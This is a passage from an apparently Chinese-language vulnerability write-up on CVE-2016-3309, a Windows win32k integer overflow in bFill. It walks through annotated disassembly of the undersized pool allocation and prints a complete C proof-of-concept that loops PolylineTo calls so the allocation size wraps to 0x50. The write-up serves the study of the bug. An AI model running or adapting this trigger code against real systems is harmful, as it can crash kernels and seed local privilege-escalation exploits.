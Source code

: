 ```
.text:00000001C02C90FA loc_1C02C90FA:                          ; 申请内存的代码
.text:00000001C02C90FA                 lea     ecx, [rax+rax*2]      ; 将cCurves * 3的值赋给ecx
.text:00000001C02C90FD                 shl     ecx, 4                  ; 将ecx左移4位，即乘以2^4 = 0x10，所以ecx = cCurves * 0x30
.text:00000001C02C9100                 xor     r8d, r8d
.text:00000001C02C9103                 mov     edx, 'gdeG'
.text:00000001C02C9108                 call    PALLOCMEM2      ; 该函数会调用Win32AllocPool申请内存
.text:00000001C02C910D                 mov     r14, rax      ; 将申请到的内存地址赋给r14
.text:00000001C02C9110                 mov     [rsp+658h+var_608], rax
.text:00000001C02C9115                 test    rax, rax           ; 判断内存是否申请成功
.text:00000001C02C9118                 jz      loc_1C02C93CA
.text:00000001C02C911E                 mov     [rsp+658h+isAlloc], 1 ;申请成功则将该变量置1
        // 省略部分代码
.text:00000001C02C9182                 mov     r8, r14         ; 将前面保存在r14的申请到的内存地址赋给r8
.text:00000001C02C9185                 lea     rdx, [rsp+658h+var_5A8] 
.text:00000001C02C918D                 mov     rcx, rbx        
.text:00000001C02C9190                 call    cs:__imp_bConstructGET  ; 该函数会对申请到的内存地址进行写入操作
        // 省略部分代码
.text:00000001C02C93B8                 cmp     [rsp+658h+isAlloc], 0 ; 通过变量isAlloc判断上面内存申请是否成功
.text:00000001C02C93BD                 jz      short loc_1C02C93C8
.text:00000001C02C93BF                 mov     rcx, r14        
.text:00000001C02C93C2                 call    cs:__imp_Win32FreePool  ; 如果成功则释放内存
        // 省略部分代码
.text:00000001C02C93EC ?bFill@@YAHAEAVEPATHOBJ@@PEAU_RECTL@@KP6AX1KPEAX@Z2@Z endp
```  
##   
##   
## 2.POC代码分析  
  
以下是触发该漏洞的POC代码，该代码会通过调用PolyLineTo函数来增加EPATHOBJ的cCurves，共增加0x156次，每次增加0x3FE01。而在调用bFill函数前，cCurves还会被加1用来闭合曲线。因此，在bFill函数中申请的内存大小就会是(0x156 * 0x3FE01 + 1) * 0x30 = 0x5555557 * 0x30 = 0x1 0000 00050，溢出后就会是0x50。  
```
BOOL POC_CVE_2016_3309()
{
    BOOL bRet = TRUE;

    static POINT points[0x3fe01];
    points[0].x = 1;
    points[0].y = 1;
    // Get Device context of desktop hwnd
    HDC hdc = GetDC(NULL);
    // Get a compatible Device Context to assign Bitmap to
    HDC hMemDC = CreateCompatibleDC(hdc);
    // Create Bitmap Object
    HGDIOBJ bitmap = CreateBitmap(0x5a, 0x1f, 1, 32, NULL);
    // Select the Bitmap into the Compatible DC
    HGDIOBJ bitobj = (HGDIOBJ)SelectObject(hMemDC, bitmap);
    //Begin path
    BeginPath(hMemDC);
    // Calling PolylineTo 0x156 times with PolylineTo points of size 0x3fe01.
    for (int j = 0; j < 0x156; j++) {
        PolylineTo(hMemDC, points, 0x3FE01);
    }
    // End the path
    EndPath(hMemDC);
    // Fill the path
    FillPath(hMemDC);

    return bRet;
}
```  
  